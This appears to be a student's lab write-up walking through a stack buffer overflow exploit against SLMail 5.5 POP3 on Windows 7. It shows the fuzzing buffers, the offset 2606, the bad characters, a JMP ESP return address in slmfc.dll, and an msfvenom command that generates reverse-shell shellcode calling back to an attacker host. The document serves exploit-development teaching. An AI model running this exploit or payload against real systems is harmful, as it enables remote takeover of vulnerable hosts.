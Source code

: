 # zeit8042 - Shellcode Design to Buffer Overflow on Windows 7 Machine using vulnerable application as SLMail. 
What we try to achieve?
•	Get the control of EIP register.
•	Tell instruction register to execute our preferred program like /bin/sh, reverse shell, shellcode execution.
•	Or point to the exact memory location where it can execute code or program.
How we do it?
1.	Spiking: Find a vulnerable program or code or application which can use to start exploiting the system and get help of the resources. In our case it is SLmail 5.5: POP3 which is unauthenticated buffer overflow vulnerability exist according to exploit database CVE 2003-0264.
2.	Fuzzing: Try to find out whether the application could be exploited or not? In our case we send a bunch of ‘A’ characters to the application to see (using Immunity Debugger) if we can overrun the ESP | EBP | EIP registers.
3.	Determine the offset of the register: Try to find out the exact position EIP register: means find out the exact memory address of EIP, that can make demarcation point between buffer and EIP | EBP | ESP register. In our case, we use Metasploit-framework (pattern_create.rb | pattern_offset.rb) tools.
4.	Take control of the EIP register: Overwriting the EIP register with the address of the exploitable application or shellcode.
5.	Finding the Bad Characters: List of unwanted characters that can break the shellcode. In SLmail application we found \x00, \x0A, \x0D bad characters.
6.	Finding the right module: Try to find out .DLL or something similar that has no memory protection or could be exploitable. In our case we found SKmail.dll and we try to find an address of an instruction like JMP ESP. Later, stack pointer points to shellcode or other application like /bin/sh or get the reuse shell of the attacked system.
7.	Generate the shellcode (when DEP is disabled): Execute the code to get reverse shell of the attacked system. In our case we use msfvenom tools to generate shellcode.
8.	Generate the ROP Chains (when DEP enabled): 
Youtube Link: https://www.youtube.com/watch?v=j-K0jX0vgkI&ab_channel=AhasanAnowar

Step-By-Step Procedure for developing the Shellcode

(1)	./buffer – fuzz.py -> executed (check if EIP could be buffer-overflow or not!)
ESP = 023FA128 … (AAA ….) only ‘A’ send out
EIP = 41414141 (Achieved)

(2)	./buffer – fuzz – pattern.py
ESP = 022EA128 (Dj0Dj1Dj...)

(A)	In ID (Immunity Debugger): after attaching the SLMail application.
Kali Linux MC: find pattern_create
	Locate pattern_create
O/P: /user/bin/msf-pattern_create
	/user/share/Metasploit-framework/tools/exploit/pattern_create.rb
Now execute this:
	/user/share/Metasploit-framework/tools/exploit/pattern_create.rb  - l 2700
O/P: Aa0Aa1…
-> Copy this: “(string as buffer…)” and put it in our buffer-fuzz-pattern.py file.
	Run our buffer-fuzz-pattern.py file from Kali M/C when ID is running at Win7 M/C with SLMail application attached. 
	ID “access violation…. [39694438]… found”
	Go back to Kali and find out pattern_offset
Kali: locate pattern_offset
	O/P: /user/bin/msf-pattern_offset
		/user/share/Metasploit-framework/tools/exploit/pattern_offset.rb
	Now run in Kali M/C.
Kali M/C:
/user/share/Metasploit-framework/tools/exploit/pattern_offset.rb – q 39694438
O/P: [*] Exact match at offset 2606

(3)	./buffer-fuzz-offset.py

Buffer = “A” * 2606 + “B” * 4 + “C” * 290  create a 2900 bytes
and check the EIP resistor if it is ‘BBBB’ or ‘42424242’ means our offset is correct.

	Run the program from Kali (./buffer-fuzz-offset.py)
	Run ID in Win7 machine where SLMail is attached with it.
O/P at ID is:
	ESP: full of ‘CCCCCC….’
	EIP: 42424242
	Means OFFSET ‘2606’ is correct to reach EIP resistor.
Now, increase our buffer size to 3500 bytes using more ‘C’  ./buffer-fuzz-C.py

(4)	./buffer-fuzz-badchars.py

We need to find bad characters from the file as it will make the output out of order. For this reason, construct a bad char byte array. It is done from ID in win Win7 M/C
	!mona bytearray 
O/P is bytearray.txt in the ID folder. 
	Copy the byte contexts from bytearray.txt file and create a .py file as buffer-fuzz-badchars.py
	In this file, include the bytearray as variable badchars = …… and ‘buffer’ variable looks like in the following:
Buffer = “A” * 2606 + “B” * 4 + badchars
	Now run this .py from Kali Linux M/C and check this in ID on Win7 M/C after attaching the SLMail application. 
	Now ECX resistor show  illegal command…. AAA… click it and follow in dump. 
O/P: (ECX 025A9ECA ASCII “………. AAAA……”)
	In the DUMP window O/P check the contents after
42 42 42 42 01 02 03 04 05 06 07 08 09 29 20

After 09, it should be 0a 0b… rather 29 20 
So I/P character and O/P character have discrepancies. 
It means OA is bad character.
So remove this from I/P file  means buffer-fuzz-badchar.py file delete the ‘OA’ file from the badchar variable and save it. 
	Do the previous process again and run it.
	And find out ‘\X0D’ has another bad character.
	‘\X00’ also a bad character.
	So from onwards, we have to remember to exclude ‘\X00’, ‘\X0A’ and ‘\X0D’ characters. 

(5)	./buffer-fuzz-C.py (check if EIP’s particular position could be determined)
ESP = 0226A128 (CCCC….)
EIP: 42424242 (Achieved)
(6)	Find the memory address of JMP ESP.
	In the ID: search for >command>JMP ESP (Find Command Windows)
	The OP code for JMP ESP is ‘FFE4’ means “\XFF\XE4”
	Run 
!mona find -s “\XFF\XE4” – m slmfc.dll
	Why is slmfc.dll, why not ntdll.dll?
-	Because .dll module should be ASLR and REBASE false. In case of ntdlll.dlll  both are true.
-	In shellcode execution we need fixed memory address which will not change at this. This is vital for our shellcode executed process.
O/P: 0X5F4A358F
	0X5F4B11E3
…
19 points found.

I choose OX5F4A358F as it has no bad characters and ASLR & REBASE are false. 
	SLMFC.DLL modules.

	Now reconstruct or update our buffer code.
o	In buffer-fuzz-jmp-esp.py file.
Buffer = “A”*2606+”\X8F\X35\X4A\X5F”+”C”*(3500-2606-4)

As we are using Intel machine and it is little endian, addresses are in reverse order. 
	Now run the program ./buffer-fuzz-jmp-esp.py 
Against ID(Win 7 M/C) > SLMail application attached to it.

ESP = 019CA128    ASCII “CCCCC….”
EBP = 41414141
EIP = 019CA2D6

On the stack dump: O/P is 
019CA11C	41414141	AAAA
019CA120	41414141	AAAA
019CA124	5F4A358F	SLMFC.5F4A3585	 A
019CA128	43434343				 B	
019CA12C	43434343




(A)	It is important (0X019CA124) memory location contain string (5F4A358F), which in actually a memory address that stack do not consider. It’s job in when EIP resistor have this input it see whether it is a legitimate address or not? If not ‘access violation’ or jump to that location. When it jump to that location, it found ‘JMP ESP’ instruction or op code of “\XFF\XEA”. 
(B)	To execute the instruction it go to the stack pointer at (0X19CA128) memory location and fetch the contents. If we put our exploit here then it will execute. In many case, “\X90”: NOP (no operation) op code use to direct the shellcode execution location. 
Next the shellcode execution.

(7)	Shellcode execution.

On the Kali Linux M/C execute following command to get the reverse shell of Windows 7 M/C:

	msfvenom -p windows/shell_reverse_tcp LHOST=<attack m/c IP> LPORT=<port#> -f c -a x86 –platform windows -b “\X00\X0A\X0D” -e X86/shikata_ga_nai
	Copy the O/P of this command and put it in the clipboard.
